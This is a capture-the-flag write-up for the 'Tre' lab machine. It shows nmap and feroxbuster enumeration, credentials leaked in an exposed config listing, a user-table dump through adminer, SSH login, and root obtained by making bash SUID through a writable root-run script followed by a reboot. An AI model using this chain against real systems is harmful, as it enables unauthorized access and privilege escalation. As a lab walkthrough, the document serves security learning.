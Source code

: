 # PG Play - Tre

##### Ip: 192.168.199.84
##### Name: Tre
##### Difficulty: Intermediate
##### Community Rating: Hard

----------------------------------------------------------------------

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ sudo nmap -p-  --min-rate 10000 192.168.199.84 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 14:15 CDT
Nmap scan report for 192.168.199.84
Host is up (0.11s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
```

Heading to the site on port 80 we find just an image:

![site.png](../assets/tre_assets/site.png)

If we kick off some directory fuzzing with Feroxbuster using:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ feroxbuster --url http://192.168.199.84 -q -x php
```

We find some mantisbt directories. The `/config` directory seems especially interesting:

![manits.png](../assets/tre_assets/manits.png)

Heading to the page we find an index of files:

![index.png](../assets/tre_assets/index.png)

CLicking into `a.txt` we find some DB credentials. 

![creds.png](../assets/tre_assets/creds.png)

Trying these on the mantisbt page however, we find they are no good there:

![nope.png](../assets/tre_assets/nope.png)

Looking back at our running Feroxbuster scan, we see it has picked up an `/adminer.php` page:

![adminer.png](../assets/tre_assets/adminer.png)

Lets try the DB credentials we discovered earlier here:

![login.png](../assets/tre_assets/login.png)

Nice that worked:

![in.png](../assets/tre_assets/in.png)

In the SQL Command area of the page we can begin enumerating the database. After discovering a `mantis_user_table` I ran `select * from mantis_user_table` and discovered some more credentials:

![sql.png](../assets/tre_assets/sql.png)

Tre's 'realname' looks a bit like a password. Lets try it using SSH:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84                                
The authenticity of host '192.168.199.84 (192.168.199.84)' can't be established.
ED25519 key fingerprint is SHA256:1ZfYO3DGJA+iL5+oiLgoa4kQETeZ48YhrRrPnTvJb3A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.199.84' (ED25519) to the list of known hosts.
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ whoami
tre
```

Cool, that worked! We can now grab the local.txt flag:

![user_flag.png](../assets/tre_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to check Tre's permissions for sudo we see he can execute `shutdown`. Interesting.

```text
tre@tre:$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
``` 

Lets also load up LinPEAS to help out with more enumeration:

![transfer.png](../assets/tre_assets/transfer.png)

Linpeas finds that check-system is writable. We may be able to exploit this.

![check.png](../assets/tre_assets/check.png)

Double checking the permissions, we see it is owned by root but we have the ability to read and write to it:

```text
tre@tre:/usr/bin$ ls -la check-system
-rw----rw- 1 root root 135 May 12  2020 check-system
```

If we add the SUID bit to `/bin/bash` and then restart the machine using `sudo shutdown` when the machine reboots we should be able to easily get the root flag:

![nano.png](../assets/tre_assets/nano.png)

We can then shutdown the machine:

```text
tre@tre:/usr/bin$ sudo shutdown -r now
tre@tre:/usr/bin$ Connection to 192.168.199.84 closed by remote host.
Connection to 192.168.199.84 closed
```

Now if we SSH back in again we can run `/usr/bin/bash -p` and we will escalate to a root shell:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 20 15:39:31 2023 from 192.168.45.246
-bash-5.0$ whoami
tre
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
```

We can now grab the final flag:

![root_flag.png](../assets/tre_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------






